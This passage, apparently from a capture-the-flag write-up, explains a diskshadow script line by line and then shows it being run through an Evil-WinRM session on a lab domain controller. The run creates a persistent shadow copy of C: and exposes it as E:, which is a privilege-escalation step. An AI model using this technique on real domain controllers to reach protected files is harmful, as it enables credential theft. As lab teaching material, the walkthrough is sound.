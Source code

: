 2. **set metadata C:\Windows\Temp\meta.cab**: The script saves metadata (information about the shadow copy) to a file called `meta.cab` in the `C:\Windows\Temp` directory.

3. **set context clientaccessible**: This makes the shadow copy accessible to clients (i.e., it can be used for backup purposes by applications).

4. **set context persistent**: This keeps the shadow copy persistent, meaning it won’t be automatically deleted after use.

5. **begin backup**: Marks the start of the backup process.

6. **add volume C: alias cdrive**: Adds the `C:` drive to the backup and assigns it the alias `cdrive`.

7. **create**: Creates the shadow copy for the specified volume (in this case, the `C:` drive).

8. **expose %cdrive% E:**: Exposes (mounts) the shadow copy of the `C:` drive as a new drive letter `E:`.

9. **end backup**: Marks the end of the backup process.

>In summary, this script creates a shadow copy of the `C:` drive and mounts it to the `E:` drive, making it accessible for further operations.
{: .prompt-tip }

Now lets run <mark style="background: #ABF7F7A6;">diskshadow</mark> command with this script 🔻

```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Videos> diskshadow /s back_script.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  CICADA-DC,  10/9/2024 10:46:44 AM

-> set verbose on
-> set metadata C:\Windows\Temp\meta.cab
The existing file will be overwritten.
-> set context clientaccessible
-> set context persistent
-> begin backup
-> add volume C: alias cdrive
-> create
Component "\BCD\BCD" from writer "ASR Writer" is excluded from backup,
because it requires volume  which is not in the shadow copy set.
The writer "ASR Writer" is now entirely excluded from the backup because the top-level
non selectable component "\BCD\BCD" is excluded.

* Including writer "Task Scheduler Writer":
	+ Adding component: \TasksStore

* Including writer "VSS Metadata Store Writer":
	+ Adding component: \WriterMetadataStore

* Including writer "Performance Counters Writer":
	+ Adding component: \PerformanceCounters

* Including writer "System Writer":
	+ Adding component: \System Files
	+ Adding component: \Win32 Services Files

* Including writer "WMI Writer":
	+ Adding component: \WMI

* Including writer "DFS Replication service writer":
	+ Adding component: \SYSVOL\760C4715-6766-4D86-B0E5-4668258AC503-E68080D4-A0B8-4ED9-AB8A-A7FFD4F0BA03

* Including writer "Registry Writer":
	+ Adding component: \Registry
```